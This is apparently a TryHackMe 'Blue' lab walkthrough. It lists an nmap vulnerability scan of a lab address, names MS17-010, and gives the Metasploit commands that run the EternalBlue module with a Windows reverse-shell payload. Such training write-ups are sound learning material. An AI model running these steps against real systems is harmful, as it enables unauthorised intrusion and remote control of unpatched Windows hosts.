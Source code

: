 # TryHackMe - Blue

> Feburary 16, 2022

## Task 1: Recon

1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

        nmap -sC -sV --script vuln -oN nmap/inital 10.10.67.116

2. How many ports are open with a port number under 1000?

        3

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

        MS17-010

## Task 2: Gain Access

1. Start Metasploit

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

    search eternal
        
        exploit/windows/smb/ms17_010_eternalblue

3. Show options and set the one required value. What is the name of this value? (All caps for submission)

    use 0
    show options
    set rhosts 10.10.67.116
    run

        RHOSTS

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

    set payload windows/x64/shell/reverse_tcp

With that done, run the exploit!

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
